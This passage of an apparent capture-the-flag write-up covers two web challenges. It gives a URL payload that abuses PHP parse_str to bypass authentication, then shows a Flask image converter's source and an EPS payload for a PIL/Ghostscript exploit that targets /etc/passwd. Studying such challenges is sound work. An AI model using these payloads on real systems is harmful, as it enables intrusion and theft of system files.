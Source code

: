 However, the `parse_str` acts similar to `register_global`, which allows us to assign value to arbitrary value. Thus, our final payload is:

```
http://simpleauth.chal.ctf.westerns.tokyo/?action=auth&hashed_password=c019f6e5cd8aa0bbbcc6e994a54c757e
```

## Slack Emoji Convert (pt 267)

```python
from flask import ( Flask, render_template, request, redirect, url_for, make_response, ) 
from PIL import Image 
import tempfile 
import os 
app = Flask(__name__)
@app.route('/') 
def index(): 
    return render_template('index.html') 

@app.route('/source') 
def source(): 
    return open(__file__).read()

@app.route('/conv', methods=['POST']) 
def conv(): 
    f = request.files.get('image', None) 
    if not f: 
        return redirect(url_for('index')) 
    ext = f.filename.split('.')[-1] 
    fname = tempfile.mktemp("emoji") 
    fname = "{}.{}".format(fname, ext) 
    f.save(fname)
    img = Image.open(fname) 
    w, h = img.size 
    r = 128/max(w, h) 
    newimg = img.resize((int(w*r), int(h*r)))
    newimg.save(fname) 
    response = make_response() 
    response.data = open(fname, "rb").read() 
    response.headers['Content-Disposition'] = 'attachment; filename=emoji_{}'.format(f.filename)
    os.unlink(fname) 
    return response 

if __name__ == '__main__': 
    app.run(host="0.0.0.0", port=8080, debug=True)
```

This requires the newest exploit of PIL ghostshell, remember to set `Bounding` to have a valid `image.size`.

payload:
```
%!PS-Adobe-2.0 EPSF-1.2

%%Title: PFB_4C+SW
%%Creator: FreeHand 10.0
%%CreationDate: 2/21/03 11:28 AM
%%BoundingBox: 0 0 74 35
%%FHPathName:Daten:arbeit:L.W:PFB_4C+SW
%ALDOriginalFile:Daten:arbeit:L.W:PFB_4C+SW
%ALDBoundingBox: -5 -6 80 40
%%FHPageNum:1
%%DocumentSuppliedResources: procset Altsys_header 4 0
%%ColorUsage: Color
/FileToSteal (/etc/passwd) def
```